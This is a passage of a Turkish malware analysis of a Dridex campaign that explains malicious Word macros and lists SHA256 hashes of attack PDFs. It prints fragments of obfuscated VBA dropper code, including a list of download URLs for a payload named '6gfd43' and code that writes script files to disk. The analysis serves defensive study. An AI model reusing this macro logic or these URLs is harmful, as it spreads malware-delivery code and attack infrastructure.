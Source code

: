 Makro içeren diğer çıktılar teker teker incelenerek anormallikler tespit edilebilir.

**"Module1"** dosyasına bakıldığında **"carterfabricationsinc.comcastbiz.net/6gfd43Vbarrets.com.br/6gfd43Vthefatdude.co.uk/6gfd43"** adresinden **"6gfd43"** isimli bir dosya indirildiği görülmektedir. 

```
Public Sub WellNowYouAreReady()
If ActiveDocument.Kind = 0 Then
Set CuPro = CreateObject(Vaucher)
End If
Set DRUFTINGPIRO_LOR = CreateObject(ArizonaSu(FreshID + 3))
smbi = Odish.Label1.Caption
MovedPermanently = Split("jeanevermore.com/6gfd43Vhawgshackcycles.comcastbiz.net/6gfd43Vbarkave.comcastbiz.net/6gfd43", Odish.Command.Caption)
 Set SubProperty = CreateObject(ArizonaSu(1))
   Set DRUFTINGGMAKO = CreateObject(ArizonaSu(1 + 2 + 3 - 4))
Set DRUFTINGRDD2 = DRUFTINGPIRO_LOR.Environment(ArizonaSu(4))
 ProjectDarvin = 12
 DRUFTINGLAKOPPC = DRUFTINGRDD2(ArizonaSu(ProjectDarvin / 2))
 ProjectDarvin = ProjectDarvin - ProjectDarvin
     MoveSheets "A", "B", "C"
```

**"Module2"** dosyası incelendiğinde  **"Scripting.FileSystemObject"** fonksiyonu kullanarak etkilenen Windows ortamının dosya sistemine içerisine bazı scriptlerin "**ferbys**" oluşturulduğu gözlemleniyor.

```
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\CIMV2")
Set colItems = objWMIService.ExecQuery("SELECT * FROM Win32_VideoController", "WQL", _
wbemFlagReturnImmediately + wbemFlagForwardOnly)
rTemp2:
 DRUFTINGProject = DRUFTINGLAKOPPC
 DRUFTINGProjectBBB = DRUFTINGProject + "\ferbys" + CStr(ProjectDarvin)
```

**Bazı Dridex saldırıları sırasında emailler içerisinde eklenen PDF dosyalarının SHA256 özetleri:**

- 05dd48c95e4e1b81786f9a3f4fcb7a41cc311f55ea8ecddd7f6e859df636e3ca
- 2e9c00a2068a594bef50ac27c0f90e4640689fb6ef1173641220f57b09c47e18
- 37b7487ca7cb16b973e35b3afc63202035bb53d04d15b2150fb5754cb334492e
- 44a7a6e85201a73a35b63c7d0e36320b52dd9023cdea50f8c551687398244c37
- 48c3d56e55697eae003c953f1830e76412241d147aa7ac2231eb39c9f3a266fc
- 4bd1cdd02acc8bd849617120e526c412acd026b92e63438c58a637122eddb634
- 6af64a4869c248ad84d07f0effd7a192d6d63844b5841869ffa9fb993d96482b
- 73a89bcbf9b8176f4acafc2b4b4ad5d145d00c30c436eabf996a640accb15789
- 7460aedf462c05480f036c4d7f5958254208a8cb3db6b1028edb0100717ebc73
- 77afe8ea7a346f93d226245df36907d414052896fdd1a7f03f58621239991859
- 9e1f83c6d7957302282f35d3188c82631d27bab8614120d8fc1a5a75121b69c5
- bedcb0aaf08b9730fd758f8fc803e2d44530eb03e41a68552bcdaf9965915ed1
- c7788d23647fa3a7f488a66d0ecd0263432e2d528939db1cdbe67865feec220f
 
**Dridex saldırısı sırasında mailler içerisinde eklenen Word dosyalarının SHA256 özetleri:**
